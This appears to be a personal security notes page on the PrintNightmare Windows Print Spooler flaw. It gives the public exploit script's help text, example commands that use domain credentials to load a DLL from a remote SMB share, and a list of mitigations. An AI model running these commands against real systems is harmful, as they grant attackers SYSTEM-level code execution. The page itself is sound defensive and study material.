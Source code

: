[PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) was a critical security vulnerability that affected the Windows Print Spooler service. It allowed attackers to remotely execute arbitrary code with SYSTEM-level privileges on vulnerable Windows systems. The vulnerability was tracked as CVE-2021-34527.

#### Help Page
```bash
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

#### Mitigation
1. **Patch and Update:** Apply the latest security updates and patches from Microsoft to all affected Windows systems. Microsoft has released security patches to address the PrintNightmare vulnerability.
2. **Disable Print Spooler Service:** If your organization doesn't require printing capabilities on a particular system, consider disabling the Print Spooler service as an additional precaution.
3. **Network Segmentation:** Implement network segmentation to limit the impact of potential attacks and prevent lateral movement within the network.
4. **Network Monitoring:** Implement network monitoring and intrusion detection systems to detect any suspicious activity related to the Print Spooler service.
5. **User Awareness and Training:** Educate users and employees about the risks of interacting with untrusted files and links, especially through emails and external sources.
6. **Security Best Practices:** Follow security best practices, such as least privilege, regular system backups, and secure configurations, to protect your systems from various security threats.

#### Crack Example
![[Print Nightmare Attack Example.png]]

